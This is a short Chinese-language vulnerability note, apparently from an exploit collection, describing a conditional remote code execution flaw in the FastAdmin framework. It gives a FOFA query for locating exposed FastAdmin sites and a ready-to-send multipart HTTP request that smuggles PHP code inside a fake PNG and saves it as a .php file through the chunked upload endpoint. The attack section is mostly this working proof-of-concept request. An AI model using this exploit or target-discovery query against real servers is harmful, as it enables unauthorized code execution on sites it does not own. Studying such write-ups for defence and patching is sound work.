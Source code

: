 # FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## FOFA

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![image-20221206160222513](images/image-20221206160222513.png)